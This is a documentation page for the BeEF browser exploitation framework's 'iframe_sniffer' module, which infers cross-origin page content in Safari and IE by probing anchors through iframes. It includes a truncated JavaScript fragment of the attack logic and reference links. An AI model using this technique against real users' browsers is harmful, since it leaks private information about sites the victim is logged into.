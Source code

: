 ## Summary

* **Objective**: Sniff data from other origins via iframes
* **Authors**: Bart Leppens
* **Browsers**: Safari, IE

* [Code](https://github.com/beefproject/beef/tree/master/modules/misc/iframe_sniffer)

## Internal Working

By using anchors (#) to request cross-origin resources in an iframe, it can leak information based on the presence and absence of elements.

Content can't be directly read with this technique, but data can be inferred from web applications.


```js

      if (typeof LeakyFrame === 'function') {
          new LeakyFrame(inputURL,
            function(frame){
              //check each anchor
              for (var anchor = 0; anchor < arrayOfAnchorsToCheck.length; anchor++){
                if (frame.checkID(arrayOfAnchorsToCheck[anchor])){
                  resultList.push('Exists');
                }
                else{
                  resultList.push('Does not exist');
                }
              }
              frame.remove();

```


## References

https://www.contextis.com/en/blog/framesniffing-against-sharepoint-and-linkedin

(old link, maybe check it on archive.org):
http://www.contextis.co.uk/research/blog/framesniffing/


## Feedback


